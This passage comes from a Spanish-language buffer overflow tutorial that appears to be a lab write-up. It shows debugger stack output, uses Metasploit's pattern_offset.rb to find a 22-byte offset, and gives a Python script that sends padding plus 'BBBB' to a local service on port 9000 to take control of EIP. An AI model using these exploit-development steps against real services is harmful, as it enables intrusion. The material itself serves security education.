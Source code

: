 ```
05:0014│     0xffffce54 ◂— 0x62413562 ('b5Ab')
06:0018│     0xffffce58 ◂— 0x37624136 ('6Ab7')
07:001c│     0xffffce5c ◂— 0x41386241 ('Ab8A')
────────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────
 ► 0 0x61413761 None
   1 0x39614138 None
   2 0x41306241 None
   3 0x62413162 None
   4 0x33624132 None
   5 0x41346241 None
   6 0x62413562 None
   7 0x37624136 None
─────────────────────────────────────────────────────────────────────────────
```

Veremos que hemos conseguido pasarnos del `buffer` y nos muestra la direccion de memoria que nos importa llamado `EIP` que seria `0x61413761`.

### Identificación del Offset

Para determinar el desplazamiento exacto (`offset`) donde ocurre la `sobrescritura`, usamos `pattern_offset.rb`, proporcionando la dirección en hexadecimal obtenida en `EIP`:

> Host

```shell
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x61413761
```

Info:

```
[*] Exact match at offset 22
```

Esto indica que el `offset` es de `22` bytes, por lo que haremos lo siguiente, para automatizar todo este proceso:

> step2.py

Creamos un nuevo script que utiliza el `offset` para sobrescribir el registro `EIP` con un valor controlado (`BBBB`):

```python
#!/usr/bin/python3

import socket

target_ip = "127.0.0.1"
target_port = 9000

buffer_size = 22
padding = b"A" * buffer_size
eip_override = b"B" * 4

crafted_payload = padding + eip_override

def send_payload():
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
        sock.connect((target_ip, target_port))
        sock.send(crafted_payload + b"\r\n")

if __name__ == '__main__':
    send_payload()
```
